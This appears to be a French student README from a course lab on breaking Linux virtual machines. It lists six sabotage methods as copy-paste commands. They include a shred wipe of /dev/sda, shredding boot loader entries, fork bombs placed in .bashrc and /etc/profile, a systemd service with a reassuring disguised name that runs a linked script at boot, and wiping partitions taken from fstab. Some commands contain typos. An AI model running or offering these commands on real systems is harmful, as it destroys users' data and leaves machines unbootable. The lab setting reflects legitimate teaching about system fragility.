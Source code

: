 # Detruire des vms linux 

on va essayer de casser des vms ca resume bien le cour 

## 1.premiere Methode 

demarche : le fichier .bashrc se lance dés que on se log sur la session 

``` c 
sudo nano .bashrc
on ecrit exit ligne 2

exit
```
et voila mtn dés que l'on se log on quitte 

## 2.deuxieme Methode

si on supprime le sique dur , l'ordinateur pourra plus demaré car il aura plus rien sur quoi boot .

pour cela on utilise la commande shred qui permet de supprimer definitevement le contenu d'un dossier ou fichier 
pour cela on rentre la commande shred -n 20 -z -u -v /dev/sda

```c
sudo shred -n 20 -z -u -v /dev/sda
```
-n 20 réecrit 20 fois le fichier   
-z remplace avec des zéro  
-v permet de suivre le processus dans le terminal   
-u supprime le fichier apres la réecriture   

## 3.troisieme Methode 

je vais etre honete j'ai pas tous comprit sur le dossier entries j'ai juste comprit que ca a un rapport avec le disque dur est son arborcense   

```c
su -
cd /
cd /boot/loader/entries
shred -n 10 -z -u -v b9*.conf 
```
quand on reboot il ne trouve plus son disque pour rebbot et ducoup il rebbot sur grub.

## 4.Quatrième methode 

petite Fork bomb
dans le home 
```c
sudo nano /bashrc

 :(){ :|:& };:
```
on ecrit ca au debut du programme 
et sauf si on spam le controle c au debut on peut plus rien faire dans le user ou on est log 

## 5.Cinquième methode
on va copier coller le code magique dans /etc/profile
```c
[root@localhost ~]# nano /etc/profile
```
[le code magique](/thatsabadideatolaunchit.sh)
petit fork bomb bien mechante

mtn on crée un fichier dans le system 

```c
sudo nano /etc/systemd/system/gentilpromis.service

[Unit]
After=mysql.service

[Service]
ExecStart=/usr/local/bin/je_suis_vraiment_cool_promit.sh

[Install]
WantedBy=default.target
```
ensuite on crée notre .sh avec notre script
```c
sudo nano /usr/local/bin/je_suis_vraiment_cool_promit.sh
```
on oublie pas de bien definir les permissions de notre fichier 
```c
chmod 744 /usr/local/bin/je_suis_vraiment_cool_promit.sh
chmod 664 /etc/systemd/system/gentilpromis.service
```
on peut copier coller [le deuxieme code magique](/vfoflinuxending.sh)

## 6.Sixième methode 
Le disque dur 

```c
sudo nano /etc/fstab

systemctl daemom-reload
shred -n 6 -z -u -v /dev/disk/by-partuuif/double tab avec le premier 
shred -n 6 -z -u -v /dev/disk/by-partuuif/double tab avec l'autre
```
on supprime les 3 ligne en blanc pour la premiere commande
et bah y'a plus de disk donc compliquer de faire quoi que se soit 

PS : j'ai cherché tout le week-end comment modifier directement des une petite donnée dans le disque ou sur le chemin d'accés vers le disque mais jai rien trouver de vraiment cool du coup je te laisse avec le truc de bourrin 